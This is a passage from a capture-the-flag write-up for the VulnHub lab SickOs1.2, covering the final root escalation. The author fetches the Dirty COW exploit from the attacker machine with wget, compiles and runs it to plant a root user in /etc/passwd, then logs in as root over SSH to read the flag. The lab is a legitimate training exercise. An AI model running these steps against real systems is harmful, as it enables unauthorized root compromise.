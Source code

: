 On the target machine we download the exploit, compile it and execute it adding as parameter the password for the user firefart.

```console
www-data@ubuntu:/tmp$ wget 192.168.179.1:443/dirtyc0w.c

www-data@ubuntu:/tmp$ gcc -pthread dirtyc0w.c -o dirtyc0w -lcrypt
gcc -pthread dirtyc0w.c -o dirtyc0w -lcrypt
www-data@ubuntu:/tmp$ ./dirtyc0w getr00t
./dirtyc0w getr00t
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: getr00t
Complete line:
firefart:fiRVK.ZqO.byw:0:0:pwned:/root:/bin/bash

mmap: b7758000
```

Then we change to the user firefart or login via SSH, so the root login is enabled for the target machine.

```console
root@kali:~$ ssh -l firefart 192.168.179.173
 .oooooo..o  o8o            oooo          .oooooo.                 .o        .oooo.  
d8P'    `Y8  `"'            `888         d8P'  `Y8b              o888      .dP""Y88b 
Y88bo.      oooo   .ooooo.   888  oooo  888      888  .oooo.o     888            ]8P'
 `"Y8888o.  `888  d88' `"Y8  888 .8P'   888      888 d88(  "8     888          .d8P' 
     `"Y88b  888  888        888888.    888      888 `"Y88b.      888        .dP'    
oo     .d8P  888  888   .o8  888 `88b.  `88b    d88' o.  )88b     888  .o. .oP     .o
8""88888P'  o888o `Y8bod8P' o888o o888o  `Y8bood8P'  8""888P'    o888o Y8P 8888888888
                                                                                     
                                                                By @D4rk36
firefart@192.168.179.173's password: 
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.4 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Tue Apr 26 03:57:15 2016 from 192.168.0.100
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:~# ls
304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz  7d03aaa2bf93d80040f3f22ec6ad9d5a.txt  chkrootkit-0.49  newRule

firefart@ubuntu:~# cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt 
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!
```

